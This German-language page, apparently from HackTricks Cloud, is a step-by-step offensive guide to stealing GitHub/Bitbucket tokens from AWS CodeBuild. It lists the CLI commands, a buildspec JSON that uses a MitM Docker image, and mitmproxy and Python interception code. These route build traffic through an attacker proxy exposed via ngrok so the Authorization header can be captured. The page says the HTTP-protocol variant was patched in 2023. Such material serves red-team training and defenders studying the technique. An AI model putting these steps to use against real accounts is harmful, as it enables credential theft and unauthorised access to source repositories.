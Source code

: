 # AWS Codebuild - Token-Leakage

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>

## Wiederherstellen von Github/Bitbucket konfigurierten Tokens

Überprüfen Sie zunächst, ob irgendwelche Quellzugangsdaten konfiguriert sind, die Sie möglicherweise preisgeben könnten:
```bash
aws codebuild list-source-credentials
```
### Über Docker-Image

Wenn Sie feststellen, dass die Authentifizierung beispielsweise für Github im Konto festgelegt ist, können Sie diesen Zugriff (GH-Token oder OAuth-Token) durch Veranlassen von Codebuild, ein bestimmtes Docker-Image zur Ausführung des Projektaufbaus zu verwenden, **exfiltrieren**.

Zu diesem Zweck könnten Sie ein neues Codebuild-Projekt erstellen oder die **Umgebung** eines vorhandenen ändern, um das **Docker-Image** festzulegen.

Das Docker-Image, das Sie verwenden könnten, ist [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dies ist ein sehr grundlegendes Docker-Image, das die **Umgebungsvariablen `https_proxy`**, **`http_proxy`** und **`SSL_CERT_FILE`** festlegt. Dadurch können Sie den Großteil des Datenverkehrs des im **`https_proxy`** und **`http_proxy`** angegebenen Hosts abfangen und dem im **`SSL_CERT_FILE`** angegebenen SSL-Zertifikat vertrauen.

1. **Erstellen und Hochladen Ihres eigenen Docker MitM-Images**
   * Befolgen Sie die Anweisungen des Repos, um Ihre Proxy-IP-Adresse festzulegen und Ihr SSL-Zertifikat zu setzen und **bauen Sie das Docker-Image**.
   * **SETZEN SIE NICHT `http_proxy`**, um Anfragen an den Metadaten-Endpunkt nicht abzufangen.
   * Sie könnten **`ngrok`** wie `ngrok tcp 4444` verwenden, um den Proxy zu Ihrem Host zu setzen.
   * Sobald Sie das Docker-Image erstellt haben, **laden Sie es in ein öffentliches Repo hoch** (Dockerhub, ECR...).
2. **Setzen der Umgebung**
   * Erstellen Sie ein **neues Codebuild-Projekt** oder **ändern** Sie die Umgebung eines vorhandenen.
   * Legen Sie das Projekt fest, um das **zuvor generierte Docker-Image zu verwenden**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Setzen Sie den MitM-Proxy in Ihrem Host**
   * Wie im **Github-Repo** angegeben, könnten Sie etwas Ähnliches verwenden:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy-Version, die verwendet wurde, war 9.0.1**, es wurde berichtet, dass dies mit Version 10 möglicherweise nicht funktioniert.
{% endhint %}

4. **Führen Sie den Build aus und erfassen Sie die Anmeldeinformationen**

* Sie können das Token im **Autorisierungs**-Header sehen:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Dies könnte auch über die AWS-CLI mit etwas Ähnlichem durchgeführt werden

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Über das HTTP-Protokoll

{% hint style="success" %}
**Diese Schwachstelle wurde von AWS irgendwann in der Woche vom 20. Februar 2023 behoben (ich glaube am Freitag). Ein Angreifer kann sie also nicht mehr ausnutzen :)**
{% endhint %}

Ein Angreifer mit erhöhten Berechtigungen in einem CodeBuild könnte das konfigurierte Github/Bitbucket-Token **offenlegen** oder, wenn die Berechtigungen über OAuth konfiguriert wurden, das **temporäre OAuth-Token, das zum Zugriff auf den Code verwendet wird**.

* Ein Angreifer könnte die Umgebungsvariablen **http\_proxy** und **https\_proxy** zum CodeBuild-Projekt hinzufügen, die auf seine eigene Maschine verweisen (zum Beispiel `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Ändern Sie dann die URL des Github-Repositorys, um HTTP anstelle von HTTPS zu verwenden, zum Beispiel: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Führen Sie dann das Grundbeispiel von [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) auf dem vom Proxy-Variablen (http\_proxy und https\_proxy) angegebenen Port aus.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Klicken Sie abschließend auf **Projekt erstellen**, die **Anmeldeinformationen** werden im Klartext (base64) an den mitm-Port gesendet:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Nun kann ein Angreifer das Token von seinem Gerät aus nutzen, um alle Berechtigungen aufzulisten und einfacher zu (miss)brauchen als bei direkter Nutzung des CodeBuild-Dienstes.
{% endhint %}

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
